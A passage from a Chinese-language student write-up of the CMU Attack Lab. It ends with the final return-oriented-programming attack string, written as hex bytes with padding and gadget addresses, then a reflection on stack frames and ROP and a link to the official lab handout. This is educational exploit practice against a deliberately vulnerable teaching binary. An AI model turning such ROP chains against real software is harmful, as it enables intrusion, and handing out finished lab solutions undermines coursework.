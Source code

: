 ```dotnetcli
#401a0b

movq %rax, %rdi
ret
#4019d2
```
+ 最终构造攻击串如下：
```dotnetcli
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
50 1a 40 00 00 00 00 00
df 19 40 00 00 00 00 00
a1 12 40 00 00 00 00 00
30 00 00 00 00 00 00 00
0b 1a 40 00 00 00 00 00
d2 19 40 00 00 00 00 00
42 19 40 00 00 00 00 00
32 34 34 62 32 38 62 65
```
+ 至此，所有关卡$Pass$！

## 2. 总结与收获
+ 经过本次$attacklab$的攻击实践，我对一些汇编程序的逻辑实现和栈的结构更熟悉和有了更深入的理解，如ret指令的含义和函数栈帧的结构等，同时也学习了令我感到十分佩服的$ROP$技术。此外，实践过程也提高了我今后写代码时的安全意识。
## 3. 参考资料
+ [CMU-Attacklab实验的官方说明文档](http://csapp.cs.cmu.edu/3e/attacklab.pdf)